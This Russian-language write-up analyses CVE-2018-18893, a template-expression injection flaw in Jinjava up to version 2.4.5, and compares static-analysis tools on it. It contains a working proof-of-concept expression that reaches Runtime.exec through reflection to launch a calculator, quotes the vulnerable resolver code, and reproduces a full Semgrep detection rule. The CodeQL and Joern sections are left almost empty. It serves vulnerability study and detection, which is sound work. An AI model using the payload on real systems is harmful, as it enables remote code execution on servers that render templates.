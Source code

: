 **CVE-2018-18893 (Маджуга Богдан Андреевич)**

**Описание:**

Выполняем данный код используя **Jinjava** версия <= 2.4.5

```
Jinjava jinjava = new Jinjava();
JinjavaInterpreter interpreter = jinjava.newInterpreter(); 
Context context = interpreter.getContext(); context.put("obj",""); 
String poc ="''.getClass().forName(\"java.lang.Runtime\").getMethod(\"exec\",''.getClass()).invoke(''.getClass().forName(\"java.lang.Runtime\").getMethod(\"getRuntime\").invoke(null),'/usr/bin/gnome-calculator')"; 
Object a = interpreter.resolveELExpression(poc, -1);
```

После запуска - на Linux машине запускается приложение калькулятор. 

Данная уязвимость отсылается к типу **Expression Resolver** уязвимостям и вообще говоря, для нее не предусмотрен конкретный набор методов, вызывающих ее. В процессе анализа уязвимости и кода, было замечено, что исходная строка конвертируется в метод, который вызывается системой. Следовательно необходимо было искать объекты абстрактного Java класса `Method` и вызов у них методов под названием `invoke()`

Первичным осмотром, искомый код нашелся в классе **BeanELResolver**, где нас интересует следующий код:

```
  @Override
  public Object invoke(
    ELContext context,
    Object base,
    Object method,
    Class<?>[] paramTypes,
    Object[] params
  ) {
    if (context == null) {
      throw new NullPointerException();
    }
    Object result = null;
    if (isResolvable(base)) {
      if (params == null) {
        params = new Object[0];
      }
      String name = method.toString();
      Method target = findMethod(base, name, paramTypes, params, params.length);
      if (target == null) {
        throw new MethodNotFoundException(
          "Cannot find method " +
          name +
          " with " +
          params.length +
          " parameters in " +
          base.getClass()
        );
      }
      try {
        result =
          target.invoke(
            base,
            coerceParams(getExpressionFactory(context), target, params)
          );
      } catch (InvocationTargetException e) {
        throw new ELException(e.getCause());
      } catch (IllegalAccessException e) {
        throw new ELException(e);
      }
      context.setPropertyResolved(true);
    }
    return result;
  }
```
```
  protected Method findMethod(
    Object base,
    String name,
    Class<?>[] types,
    Object[] params,
    int paramCount
  ) {
    if (types != null) {
      try {
        return findAccessibleMethod(base.getClass().getMethod(name, types));
      } catch (NoSuchMethodException e) {
        return null;
      }
    }
    Method varArgsMethod = null;
    for (Method method : base.getClass().getMethods()) {
      if (method.getName().equals(name)) {
        int formalParamCount = method.getParameterTypes().length;
        if (method.isVarArgs() && paramCount >= formalParamCount - 1) {
          varArgsMethod = method;
        } else if (paramCount == formalParamCount) {
          return findAccessibleMethod(method);
        }
      }
    }
    return varArgsMethod == null ? null : findAccessibleMethod(varArgsMethod);
  }
```

**Semgrep**

Для начала, запустим стандартный набор правил `semgrep ci` и посмотрим, что нам выдаст общий анализ. Входе анализа была выявленна ровно одна уязвимость с использованием данного правила:

```
rules:
  - id: el-injection
    metadata:
      cwe:
        - "CWE-94: Improper Control of Generation of Code ('Code Injection')"
      owasp:
        - A03:2021 - Injection
      source-rule-url: https://find-sec-bugs.github.io/bugs.htm#EL_INJECTION
      category: security
      technology:
        - java
      references:
        - https://owasp.org/Top10/A03_2021-Injection
      cwe2022-top25: true
      subcategory:
        - audit
      likelihood: LOW
      impact: HIGH
      confidence: LOW
      license: Commons Clause License Condition v1.0[LGPL-2.1-only]
      vulnerability_class:
        - Code Injection
    message: An expression is built with a dynamic value. The source of the value(s)
      should be verified to avoid that unfiltered values fall into this risky
      code evaluation.
    severity: WARNING
    languages:
      - java
    patterns:
      - pattern-either:
          - pattern: |
              class $CLASS {
                ...
                ExpressionFactory $EF;
                ...
                $X $METHOD(...) {
                  ...
                  $EF.createValueExpression($CTX,$INPUT,...);
                  ...
                }
                ...
              }
          - pattern: |
              class $CLASS {
                ...
                ExpressionFactory $EF = ...;
                ...
                $X $METHOD(...) {
                  ...
                  $EF.createValueExpression($CTX,$INPUT,...);
                  ...
                }
                ...
              }
          - pattern: |
              $X $METHOD(...) {
                ...
                ExpressionFactory $EF = ...;
                ...
                $EF.createValueExpression($CTX,$INPUT,...);
                ...
              }
          - pattern: |
              $X $METHOD(...,ExpressionFactory $EF,...) {
                ...
                $EF.createValueExpression($CTX,$INPUT,...);
                ...
              }
          - pattern: |
              class $CLASS {
                ...
                ExpressionFactory $EF;
                ...
                $X $METHOD(...) {
                  ...
                  $EF.createMethodExpression($CTX,$INPUT,...);
                  ...
                }
                ...
              }
          - pattern: |
              class $CLASS {
                ...
                ExpressionFactory $EF = ...;
                ...
                $X $METHOD(...) {
                  ...
                  $EF.createMethodExpression($CTX,$INPUT,...);
                  ...
                }
                ...
              }
          - pattern: |
              $X $METHOD(...) {
                ...
                ExpressionFactory $EF = ...;
                ...
                $EF.createMethodExpression($CTX,$INPUT,...);
                ...
              }
          - pattern: |
              $X $METHOD(...,ExpressionFactory $EF,...) {
                ...
                $EF.createMethodExpression($CTX,$INPUT,...);
                ...
              }
          - pattern: |
              $X $METHOD(String $INPUT, ...) {
                ...
                $OBJECT.buildConstraintViolationWithTemplate($INPUT, ...);
                ...
              }
      - pattern-not: |
          $X $METHOD(...) {
            ...
            $EF.createValueExpression($CTX,"...",...);
            ...
          }
      - pattern-not: |
          $X $METHOD(...) {
            ...
            String $S = "...";
            ...
            $EF.createValueExpression($CTX,$S,...);
            ...
          }
      - pattern-not: |
          $X $METHOD(...) {
            ...
            $EF.createMethodExpression($CTX,"...",...);
            ...
          }
      - pattern-not: |
          $X $METHOD(...) {
            ...
            String $S = "...";
            ...
            $EF.createMethodExpression($CTX,$S,...);
            ...
          }
```

Описание уязвимости:
**Уязвимость:** el-injection
**Класс:** ExpressionResolver 

Данная уязвимость непосредственно связанна с искомой, но находит она её на слишком высоком уровне.


**CodeQL**
**Joern**
importCode(inputPath="./jinjava", projectName="jinjava")
